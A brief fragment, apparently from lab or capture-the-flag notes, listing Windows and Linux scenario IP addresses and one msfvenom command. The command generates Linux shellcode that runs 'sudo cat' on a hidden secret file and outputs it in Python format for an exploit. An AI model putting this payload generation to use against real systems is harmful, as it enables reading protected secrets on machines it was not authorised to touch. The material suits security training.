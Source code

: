 Windows Scenario | 10.18.0.1 | 10.50.45.45
Linux Scenario | 10.18.0.2 | 10.50.22.16

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python
